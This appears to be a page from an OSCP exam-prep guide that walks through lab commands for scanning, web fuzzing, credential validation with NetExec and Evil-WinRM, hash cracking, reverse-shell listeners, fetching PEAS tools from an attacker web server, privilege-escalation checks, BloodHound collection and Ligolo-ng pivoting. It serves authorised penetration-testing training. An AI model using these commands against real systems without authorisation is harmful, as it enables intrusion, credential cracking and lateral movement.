



# OSCP Practical Field Guide { #practical-guide }

**Updated / 최종 수정:** 2026-11-05

!!! abstract "The working method"
    **Question → smallest useful command → evidence → interpretation → next action.** Choose a small set of tools you can explain and recover when they fail. Impacket matters greatly for Windows/AD, but cannot replace service enumeration, web testing, privilege analysis, routing or reporting.

Start with this page, then work through the [Impacket handbook](impacket.md) and [reproducible tool lab](labs/tool-practice.md). The existing subject pages retain deeper examples.

!!! warning "Exam-aware practice"
    Recheck the [official Exam Guide](https://help.offsec.com/hc/en-us/articles/360040165632-OSCP-Exam-Guide) before sitting the exam. No AI help during the exam, no spoofing/poisoning, no automatic exploitation or mass vulnerability scanners; commercial tools and Metasploit have restrictions. A tool's presence here is not blanket permission for every feature. See [restricted tools](exam-format.md#restricted). Use the commands only on assigned or authorised lab targets.

The [scoring transition](exam-format.md#scaled-scoring) still applies by exam **start time**. From 1 December 2026 at 08:00 GMT, neither 70 nor 80 estimated raw points is a stopping rule. Work towards documented objectives, not a guessed scaled score.

## 1. Minimum toolkit and priorities { #toolkit }

| Priority / task | Learn these first | What you must demonstrate | Detail |
|---|---|---|---|
| Core: workspace / evidence | Bash, tmux, `script`, `tee`, SHA-256 | Recover a session, keep commands/output per host | [Reporting](reporting.md) |
| Core: service discovery | Nmap, curl, dig, SMB client | Full TCP coverage, focused service follow-up, hostname mapping | [Enumeration](recon-enumeration.md) |
| Core: web | Burp Community Repeater, ffuf **or** feroxbuster, searchsploit | Repeat a request, handle cookies, filter false positives, inspect a PoC | [Web](web-initial-access.md) |
| Core: shell / transfer | nc, Python HTTP server, curl, PowerShell, msfvenom | Listener direction, stable shell, file integrity | [Shells](shells-file-transfer.md) |
| Core: local privilege analysis | Native Linux/Windows checks, LinPEAS, WinPEAS, pspy | Explain the vulnerable permission, not just a coloured result | [Linux](privesc-linux.md) / [Windows](privesc-windows.md) |
| Core for AD | NetExec, **Impacket**, Evil-WinRM | Separate authentication, authorisation and execution | [Impacket](impacket.md) |
| AD graph / credentials | BloodHound CE-compatible collector, hashcat or John | Verify an edge and identify a hash format | [AD](active-directory.md) / [Passwords](password-attacks.md) |
| Internal access | Ligolo-ng, SSH forwards; Chisel as an alternative | Explain target port vs callback port and route vs SOCKS | [Pivoting](pivoting.md) |

You do not need to memorise three directory fuzzers or every Impacket example. Learn the primary tool and its fallback, plus **why** the first one failed.

## 2. Prepare a repeatable workspace { #workspace }

Use fictional `training.test` only in the lab. Replace the addresses and VPN interface with your actual assignment. Do not hard-code an old `tun0` address into a payload.

```bash
mkdir -p ~/oscp-lab/{notes,nmap,web,loot,screens,tools}
cd ~/oscp-lab
export LAB_TARGET=10.10.20.21
export LAB_DOMAIN=training.test
export LAB_DC=10.10.20.10
export LAB_USER=learner
ip -4 addr
ip route get "$LAB_TARGET"
tmux new -s practice
# In a tmux pane, record this host's session; exit ends recording:
script -q -f notes/ms01-session.log
```

`ip route get` shows the route/interface chosen; it does not prove connectivity. In tmux: `Ctrl-b c` creates a window, `Ctrl-b %` splits, `Ctrl-b d` detaches, `tmux attach -t practice` reconnects. Keep one host per window. `script` records terminal control characters too, so clean it when preparing a report. Keep secret-bearing notes private and do not paste real credentials into public screenshots.

## 3. Nmap — coverage, then service questions { #nmap }

**Question:** which services can I reach, including high ports? Start with TCP connect scanning for a route/pivot-friendly baseline; use a SYN scan only when raw-packet access is available. Save results before touching the next host.

```bash
nmap -sT -Pn -n -p- -T3 -oA nmap/ms01-all "$LAB_TARGET"
# Replace these example ports with the ports actually found:
nmap -sT -Pn -n -sV -p 80,445,1433 -oA nmap/ms01-services "$LAB_TARGET"
# Select relevant scripts deliberately; scripts generate service requests:
nmap -sT -Pn -p 445 --script smb-os-discovery,smb2-security-mode   -oN nmap/ms01-smb.txt "$LAB_TARGET"
# Direct lab/VPN path with raw-packet permissions, not through proxychains:
# sudo nmap -sU -Pn --top-ports 20 -oA nmap/ms01-udp "$LAB_TARGET"
```

| Option / result | Interpretation |
|---|---|
| `-p-` | All 65,535 TCP ports, not UDP |
| `-Pn` / `-n` | Skip host discovery / reverse DNS; neither bypasses a firewall |
| `-sV` / `-oA` | Service fingerprinting / normal, XML and grepable output |
| `open` | A service responded; investigate its protocol |
| `filtered` | Filtering/no useful response; not proof the port is unused |
| `open\|filtered` on UDP | Common ambiguous result; send a protocol-specific probe |

No open ports? Check assigned IP, route, VPN, timeouts and target health before an aggressive scan. A version banner is a clue, not proof a CVE applies. Next: HTTP → curl/Burp; SMB → share permissions; MSSQL → authentication. See [deeper Nmap scenarios](recon-enumeration.md).

{ loading=lazy }

## 4. curl and ffuf — baseline before fuzzing { #web }

**Question:** is this the intended website and does an unknown path really return 404? Preserve redirects, cookies and the expected hostname. On your lab VM, add an assigned hostname to `/etc/hosts` if appropriate; `--resolve` below is a one-command alternative.

```bash
curl -i --max-time 10 "http://$LAB_TARGET/" | tee web/root.txt
curl -i --max-time 10 "http://$LAB_TARGET/not-a-real-path-7391" | tee web/missing.txt
# Hostname-specific HTTPS without changing global DNS:
# curl --resolve "portal.training.test:443:$LAB_TARGET" #   -i https://portal.training.test/
ffuf -u "http://$LAB_TARGET/FUZZ"   -w /usr/share/seclists/Discovery/Web-Content/common.txt   -mc all -ac -t 10 -rate 30 -of json -o web/paths.json
# Manual confirmation for an actual discovered path:
curl -i "http://$LAB_TARGET/admin/"
```

`FUZZ` marks the substituted field; `-ac` tries to calibrate wildcard responses; `-mc all` lets you inspect redirects and forbidden paths too. Calibration can hide useful results, so verify a known-good and known-missing path manually. If a site returns the same 200 page for everything, compare body size/words and cautiously filter that baseline (`-fs`, `-fw`, `-fl`). A 403 is a clue, not automatic access. A 301 may require the trailing slash or correct hostname. Avoid setting a huge rate over a fragile VPN. For virtual-host discovery, use `-H 'Host: FUZZ.training.test'` against the assigned IP and confirm any result manually.

{ loading=lazy }

## 5. Burp Community — a reproducible manual request { #burp }

**Use when:** you need to change one request parameter and compare behaviour. Use Community Edition and manual tools; do not rely on Pro scanner results for this workflow.

```bash
# Reproduce an ordinary request independently of the GUI:
curl -i "http://$LAB_TARGET/search?q=alpha"
curl -i --get --data-urlencode 'q=alpha beta' "http://$LAB_TARGET/search"
# Add a current lab session cookie only if the page requires authentication:
# curl -i -H 'Cookie: session=<current-lab-cookie>' #   "http://$LAB_TARGET/search?q=alpha"
```

1. Launch Burp Community with a temporary project; open **Proxy → Open browser** (the built-in browser avoids a separate proxy/certificate setup).
2. Browse the assigned lab page. In **Proxy → HTTP history**, select the request and **Send to Repeater**.
3. In **Repeater**, send the unchanged baseline first. Check scheme, host, port, method, cookies and body encoding.
4. Change **one** value, send again, and compare status, response length and meaningful content. A 500 is not proof of SQL injection; record a controlled true/false difference or another repeatable effect.
5. If redirected to login, refresh the session and CSRF token before drawing conclusions. For HTTPS, trust the lab CA in the intended browser instead of globally disabling TLS validation.
6. Save the exact baseline and modified raw requests, responses and interpretation. Link the behaviour to [manual SQLi / upload / LFI](web-initial-access.md).

The image below is a real local HTTP transaction, **not a Burp GUI screenshot**. It teaches the same method/path/status/header/body fields; reproduce the GUI steps in your own Burp lab.

{ loading=lazy }

## 6. NetExec and Evil-WinRM — validate once, then connect { #credentials }

**Question:** is the credential valid on this protocol, and does it authorise the action I want? Start with one host and one known credential, not a subnet-wide password loop. Read lockout policy before any password-spraying exercise.

```bash
nxc smb "$LAB_TARGET" -d "$LAB_DOMAIN" -u "$LAB_USER" -p 'LabOnly-123!'
nxc smb "$LAB_TARGET" -d "$LAB_DOMAIN" -u "$LAB_USER" -p 'LabOnly-123!' --shares
nxc smb "$LAB_DC" -d "$LAB_DOMAIN" -u "$LAB_USER" -p 'LabOnly-123!' --pass-pol
# Domain user versus a known local account are different validations:
# nxc smb "$LAB_TARGET" --local-auth -u labadmin -p 'LocalLabOnly-123!'
evil-winrm -i "$LAB_TARGET" -u "$LAB_USER" -p 'LabOnly-123!'
# In Evil-WinRM PowerShell:
# whoami /all
# hostname
# ipconfig
# upload /home/kali/oscp-lab/tools/winPEASx64.exe C:\Windows\Temp\winPEASx64.exe
```

The passwords shown are deliberately fictional lab values. `nxc` output indicating administrative access depends on the protocol/module/version; confirm actual capabilities. WinRM requires its service, firewall and account rights (often Remote Management Users or administrators). An SMB success does not imply WinRM success. If authentication fails, check domain/local scope and stop to diagnose; repeated guesses can lock an account. See [AD tools](active-directory.md#netexec).

## 7. Hashcat / John — identify the input first { #cracking }

Use offline cracking for lab material you have obtained. The hash prefix and encryption type decide the mode; the tool that collected it does not. Do not feed the entire `secretsdump` log to every cracking mode.

```bash
# Examples: select the one matching YOUR input, not all of them.
hashcat -m 1000 loot/nt-only.txt /usr/share/wordlists/rockyou.txt
hashcat -m 13100 loot/tgs-rc4.txt /usr/share/wordlists/rockyou.txt
hashcat -m 18200 loot/asrep-rc4.txt /usr/share/wordlists/rockyou.txt
hashcat -m 5600 loot/netntlmv2.txt /usr/share/wordlists/rockyou.txt
# Review an already-run job:
hashcat -m 1000 loot/nt-only.txt --show
# John Jumbo alternative for a file containing NT hashes:
# john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt loot/nt-only.txt
# john --show --format=NT loot/nt-only.txt
```

| Input | Typical mode |
|---|---|
| Raw NT hash, 32 hex characters | 1000 |
| `$krb5tgs$23$` / `$krb5tgs$18$` | 13100 / 19700 |
| `$krb5asrep$23$` | 18200 |
| NetNTLMv2 challenge-response | 5600 |

These modes are examples for the shown formats; check `hashcat --help` / `--example-hashes` for your installed version. `Exhausted` means that candidate set finished, not that the account is uncrackable. `Token length exception` usually means the wrong format/mode or damaged input. Avoid `--force` as a generic fix. Limit time, preserve the original hash, then use `--show` to retrieve the result. A recovered password must still be validated for the intended account.

## 8. Listener, transfer and shell stability { #shell }

A callback goes **target → attacker listener**. A download goes **target → attacker web/SMB server**. Both require the target to reach the advertised address; the attacker's default Ethernet address may be wrong on a VPN.

```bash
# Pane 1: reserve a listener for your authorised lab shell payload.
nc -lvnp 4444
# Pane 2: serve only staged files, bound to the reachable lab interface.
# Replace the sample address with the actual reachable address first:
python3 -m http.server 8000 --bind 10.10.14.5 --directory ~/oscp-lab/tools
# Linux target:
# curl -f http://10.10.14.5:8000/linpeas.sh -o /tmp/linpeas.sh
# sha256sum /tmp/linpeas.sh
# Windows target PowerShell:
# Invoke-WebRequest http://10.10.14.5:8000/winPEASx64.exe -OutFile C:\Windows\Temp\winPEASx64.exe
# Get-FileHash C:\Windows\Temp\winPEASx64.exe -Algorithm SHA256
```

For a basic Linux shell: run `python3 -c 'import pty; pty.spawn("/bin/bash")'` on the target; suspend with Ctrl-Z, run `stty raw -echo; fg` in the **local** terminal, then set `TERM=xterm` on the target. If your terminal becomes unusable, open another terminal and recover with `stty sane`. Do not perform those local terminal settings inside Windows PowerShell. A connection without a working prompt may be the wrong payload/architecture or blocked command execution. See [payload and shell detail](shells-file-transfer.md).

## 9. Privilege escalation — verify the finding { #privesc }

Start with native checks; then use a helper to cover omissions. A red line from PEAS is an investigation lead. Keep the exact permission, owner, executable path and trigger that make the issue exploitable.

```bash
# Linux target:
id; hostname; uname -a
sudo -l
find / -perm -4000 -type f 2>/dev/null
getcap -r / 2>/dev/null
# After verifying transfer integrity:
# bash /tmp/linpeas.sh | tee /tmp/linpeas-results.txt
# ./pspy64   # observe a short lab interval, then Ctrl-C
# Windows target (PowerShell):
# whoami /all
# Get-CimInstance Win32_Service | Select-Object Name,StartName,PathName,State
# icacls C:\Path\To\Candidate.exe
# .\winPEASx64.exe
```

**Linux:** `sudo -l` → allowed command and arguments; SUID → owner and reachable execution path; capabilities → which binary has which capability; cron/pspy → actual recurring command and writeable dependency. Look up only a matching [GTFOBins](https://gtfobins.github.io/) entry, not a random shell escape.

**Windows:** confirm token privilege **and** service/OS context before choosing an impersonation technique. An unquoted service path needs a writable candidate path and a realistic service restart trigger. A writable file is useful only if a more privileged process actually loads it. Do not apply an exploit just because WinPEAS prints its name. Kernel exploits come after reproducible configuration paths. Follow [Linux](privesc-linux.md) / [Windows](privesc-windows.md) for worked cases.

## 10. AD — turn the credential into a verified path { #ad }

Use [Impacket sections 4–12](impacket.md#tool-map) for the detailed command decisions. Use a BloodHound collector that matches **Community Edition**, then treat graph edges as hypotheses that need verification.

```bash
# Kali collector; enter the lab password when prompted:
bloodhound-ce-python -u "$LAB_USER" -d "$LAB_DOMAIN" -ns "$LAB_DC" -c All --zip
# Or on a domain lab host, with an installed SharpHound release compatible with your CE:
# .\SharpHound.exe -c All --ZipFileName collection.zip
```

Import the ZIP through the CE interface. Find the starting user, inspect its group memberships and the next reachable object, then confirm each edge's help text and prerequisites. `GenericAll`, `WriteDACL`, `AdminTo`, session edges and replication rights are different things. Some edges may be stale or blocked by network/firewall conditions. `-c All` requests broad collection; if it fails, inspect DNS, credentials, LDAP/RPC connectivity and reduce collection to what is reachable rather than assuming the graph is empty. Each new credential goes into a table: identity, domain/local scope, origin, tested host/protocol, verified rights. The [AD chapter](active-directory.md) provides the wider chain.

## 11. Pivot — prove one service before scanning a subnet { #pivot }

Distinguish a layer-3 route from an application SOCKS proxy. Ligolo-ng presents a routed interface but translates supported traffic through the agent; raw SYN/ICMP assumptions may not hold. Use `-sT -Pn -n` when testing through the tunnel. UI commands vary by Ligolo-ng release; the manual-route pattern below keeps the network decisions visible.

```bash
# Kali: one-time TUN setup (requires network administration capability):
sudo ip tuntap add user "$(id -un)" mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
# On the authorised pivot host, after verifying the displayed proxy certificate fingerprint:
# .\agent.exe -connect 10.10.14.5:11601 -accept-fingerprint <displayed-fingerprint>
# In the proxy console: certificate_fingerprint; session; select the agent
# Then: tunnel_start --tun ligolo
# Kali, using a lab subnet that does NOT overlap the VPN route:
sudo ip route add 10.10.30.0/24 dev ligolo
ip route get 10.10.30.10
nmap -sT -Pn -n -p 445,5985 10.10.30.10
# After the exercise, remove only the route/interface you created:
# sudo ip route del 10.10.30.0/24 dev ligolo
# sudo ip link del ligolo
```

If one TCP connection fails, inspect the active agent, selected session, route, interface, destination firewall and return path. Do not scan a whole range until that works. A reverse shell from the internal host may need an agent listener/forward as well; being able to connect **to** SMB does not prove the internal host can call **back** to Kali. If you only need one SQL port and already have SSH access, a local forward can be simpler: `ssh -N -L 127.0.0.1:11433:10.10.30.10:1433 user@pivot` then connect with `mssqlclient -port 11433 ...@127.0.0.1`; remember Kerberos still requires the correct service identity. See [pivoting](pivoting.md).

## 12. Evidence and completion criteria { #evidence }

For each target record: initial identity, service/version, exact request or command, returned evidence, privilege transition, target IP, original proof path and reproduction steps. Capture the proof with `cat` or `type` from the **target's interactive shell**, not from a copied file or web shell. Follow [the exact proof rules](exam-format.md#flag-rules) and [report checklist](reporting.md#submission-checklist).

A practice run is complete when you can:

- Explain why the chosen tool fits the observed service and rights.
- Reproduce the path from clean notes without a walkthrough.
- Diagnose one deliberate error: wrong hostname, port, auth scope or route.
- Compare transferred file hashes and show the target identity/IP with proof.
- Write a short report another learner can repeat.

## 13. What the images prove { #screenshots }

The images are faithful **renderings of captured terminal output**, not stock images or fabricated AD success screens. Local HTTP discovery/fuzzing and authenticated SMB transfer were executed against loopback services. Impacket help captures verify executable/version/options only. Windows, domain, BloodHound, Burp GUI and Ligolo-ng procedures require your own lab and are not claimed as end-to-end tested here. Full raw logs, provenance and the local reproducer are under `scripts/oscp-captures/` in the repository. Click an image to enlarge; text commands remain available beside it.

## References { #references }

- [Nmap reference guide](https://nmap.org/book/man.html)
- [ffuf usage](https://github.com/ffuf/ffuf)
- [PortSwigger manual testing workflow](https://portswigger.net/burp/documentation/desktop/testing-workflow)
- [NetExec documentation](https://www.netexec.wiki/)
- [Evil-WinRM usage](https://github.com/Hackplayers/evil-winrm)
- [BloodHound CE Python collector](https://github.com/dirkjanm/BloodHound.py/tree/bloodhound-ce)
- [Ligolo-ng quickstart](https://docs.ligolo.ng/Quickstart/)
- [Hashcat example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)
- [John the Ripper documentation](https://www.openwall.com/john/doc/)
- [PEASS-ng](https://github.com/peass-ng/PEASS-ng) · [pspy](https://github.com/DominicBreuker/pspy)
- [Exam format and current scoring](exam-format.md) · [Impacket handbook](impacket.md) · [Practice lab](labs/tool-practice.md)
